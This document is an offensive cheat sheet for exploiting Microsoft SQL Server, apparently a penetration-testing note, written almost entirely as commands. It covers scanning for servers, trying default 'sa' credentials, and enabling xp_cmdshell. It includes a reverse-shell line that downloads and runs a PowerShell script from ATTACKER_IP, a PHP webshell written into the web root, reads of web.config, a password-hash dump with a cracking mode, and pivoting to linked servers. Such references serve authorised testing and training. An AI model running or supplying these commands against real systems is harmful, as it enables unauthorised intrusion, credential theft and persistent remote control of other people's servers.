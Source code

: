 # MSSQL Exploitation

## Detection & Access
```bash
# Find MSSQL servers
nmap -p1433 --open 10.10.10.0/24

# Test default credentials
impacket-mssqlclient sa@TARGET
impacket-mssqlclient sa:sa@TARGET

# With domain credentials
impacket-mssqlclient DOMAIN/USERNAME:PASSWORD@TARGET
```

## Database Enumeration

```sql
# After connecting
SELECT @@version;
SELECT name FROM sys.databases;
SELECT name FROM sys.tables;

# Get users
SELECT name FROM sys.syslogins;

# Check if you're sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Command Execution via xp_cmdshell

```sql
# Enable xp_cmdshell (requires sysadmin)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# Execute commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'ipconfig';

# Get reverse shell
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/shell.ps1'')"';
```

## File Operations

```sql
# Read files
EXEC xp_cmdshell 'type C:\inetpub\wwwroot\web.config';

# Create webshell
EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php';
```

## Hash Extraction

```sql
# Dump SQL Server hashes
SELECT name, password_hash FROM sys.sql_logins;

# These are MSSQL hashes (hashcat mode 1731)
```

## Linked Servers

```sql
# Find linked servers (pivot opportunity)
EXEC sp_linkedservers;

# Execute on linked server
EXEC ('xp_cmdshell ''whoami''') AT [LINKED_SERVER];
```
